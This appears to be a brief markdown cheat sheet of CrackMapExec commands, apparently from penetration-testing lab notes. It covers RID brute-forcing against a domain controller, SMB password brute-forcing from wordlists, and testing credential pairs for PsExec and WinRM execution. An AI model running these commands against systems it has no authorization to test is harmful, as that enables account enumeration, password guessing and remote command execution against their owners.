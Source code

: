 # crackmapexec commands
crackmapexec --help
crackmapexec winrm --help

## RID brute force
```bash
crackmapexec smb LAB-DC -u 'guest' -p '' --rid-brute
```

## test password username arguments or files
## bruteforce SMB
check individual users and passwords and/or files the same way
```bash
crackmapexec smb $IP -u users -p passwords
```

## test valid user and password combinations for command execution permissions
test line by line
### PsExec
```bash
crackmapexec smb $IP -u valid-users.txt -p valid-passwords.txt --no-bruteforce --continue-on-success
```
### WinRM
```bash
crackmapexec winrm $IP -u valid_users -p valid_passwords --no-bruteforce --continue-on-success
```
